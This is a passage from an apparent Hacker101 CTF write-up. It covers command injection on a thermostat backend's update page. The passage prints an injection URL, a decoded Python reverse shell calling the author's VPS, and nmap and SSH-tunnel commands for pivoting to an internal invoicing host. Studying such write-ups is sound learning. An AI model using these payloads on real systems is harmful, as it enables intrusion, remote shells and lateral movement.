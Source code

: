 ```csharp
        }
    }
}
```

> BLOG NOTES!  
> I had this great conversation with @thepsi on the [Hacker101](https://www.hacker101.com/) [discord server](https://www.hacker101.com/discord). It went something like
>
> > **Me:** It fails faster when I send it garbage. I can't believe that hash is validated byte by byte... who would do that!?  
> > **Thepsi:** That's what I thought for a day, and now I have solved it.
>
> Soooooo I build a tool for the timing attack. :) I'll take this moment to shoutout Thepsi who helped me a lot by being my [rubber duck](https://en.wikipedia.org/wiki/Rubber_duck_debugging) and listening to me rambling.
>
> Why C# out of no where? It's my what I've been using professionally for many years and what I'm fastest/best at.

### H1Thermostat (Flitebackend) admin page

The backend has 4 pages: `/main`, `/control`, `/diagnostics` and `/update`. After some fuzzing I discovered the `port` and `update_host` parameters on the `update` page. Anything else than an integer crashed the `port` parameter, however the `update_host` is sent straight to the command line with no validation. This can be verified with [http://104.196.12.98/update?update_host=;%20whoami%20\|\|](http://104.196.12.98/update?update_host=;%20whoami%20\|\|) which reveals we are running commands as `root`.

I setup a netcat listener on my VPS (`nc -lvp 82`) and connected to it using [http://104.196.12.98/update?update_host=%3E/dev/null;%20python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22W.X.Y.Z%22%2C82))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fbash%22%2C%22-i%22])%3B%27%20%26%3E1%20;%20echo](http://104.196.12.98/update?update_host=%3E/dev/null;%20python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22W.X.Y.Z%22%2C82))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fbash%22%2C%22-i%22])%3B%27%20%26%3E1%20;%20echo)

With that I could install [`nmap`](https://nmap.org/) using `apt`, then I checked the local network mask (using `ip a`, it's 172.28.0.2/16) and scanned the network (`nmap -sP 172.28.0.2/16`) to see if there were other machines I could reach.

This allowed me to discover an invoicing system on 172.28.0.3. I setup a tunnel to my VPS (`ssh h1@W.X.Y.Z -R 0.0.0.0:8001:172.28.0.3:80 -fN -o StrictHostKeyChecking=no -o PubkeyAuthentication=no`) to expose the server externally.

P.S.: While exploring the machine, I saw with `ps aux` that there were other attackers connected, I'm afraid this vulnerability has already been exploited!

> BLOG NOTES!  
> Finding the `update_host` parameter was quite a challenge. [@daeken](https://twitter.com/daeken) (The author of this CTF, thank you for the fun times!) tweeted a single underscore and I knew that such a cryptic tweet had to be a clue. I had been trying to fit in `_` in all my attacks up to now but it's on this step that it was useful.
>
> The big URL contains an URL-encoded python command to connect to my listener. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("W.X.Y.Z",82));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
>
> As soon as we leave the web, I'm a complete newb. Scanning the network didn't even occur to me at first. I saw people on the next machine using `ps` and *then* I understood what I should have done. Setting up the port forwarding what quite a challenge as well! I had no idea what I was doing but I read a ton and learned so much. I had a lot of fun in this part.

